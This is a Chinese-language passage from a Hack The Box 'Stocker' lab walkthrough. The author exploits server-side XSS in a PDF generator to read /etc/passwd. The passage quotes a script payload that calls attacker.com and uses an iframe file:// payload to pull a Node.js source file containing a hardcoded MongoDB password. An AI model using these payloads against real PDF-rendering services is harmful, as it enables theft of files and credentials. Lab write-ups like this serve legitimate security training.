         _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
        tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
        uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
        tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
        landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
        pollinate:x:110:1::/var/cache/pollinate:/bin/false
        sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
        systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
        fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
        mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
        angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
        _laurel:x:998:998::/var/log/laurel:/bin/false


几个值得关注的地方：

- 数据库：mongodb
- id大于1000用户：angoose
- 开的服务还挺多，其他靶机都没怎么见到mail、proxy什么的

试了下获取shadow失败，获取用户angoose的SSH密钥也失败，感觉也走不通了。

##### 加载外部脚本

根据[hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#load-an-external-script)的payload `<script src="http://attacker.com/myscripts.js"></script>`，尝试一下加载外部脚本。

首先验证是否可行：
```bash
└─$ ls
test.txt

└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.196 - - [27/May/2023 23:39:46] "GET /test.txt HTTP/1.1" 200 -
```

OK，那就写个反弹shell……  
不过尝试之后，发现的确有获取我的脚本，但是大概是没有执行？拿不到shell……

## Initial Access

看了眼官方论坛，说可以看看 `/var/www/dev/index.js` 这个文件？不知道怎么知道要找这个文件的……

*后来翻找WP，看到[这篇](https://blog.213.se/stocker-hackthebox/)解释得很详细。原来是需要一点Node.js的知识啊，要了解这个项目的架构。*  
*之前用[第一个XSS的payload](./HTB-Stocker.md#pdfxss)时我们知道订单文档的路径是在 `/var/www/dev/pos/` 下面，谁知道这个“dev”就是子域这个dev啊……以及 `index.js` 这个文件较重要。*

根据提示，发送payload `<iframe src=file:///var/www/dev/index.js width='1000' height='1000'></iframe>`后，获得 `/var/www/dev/index.js` 文件下的密码：
```bash
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```
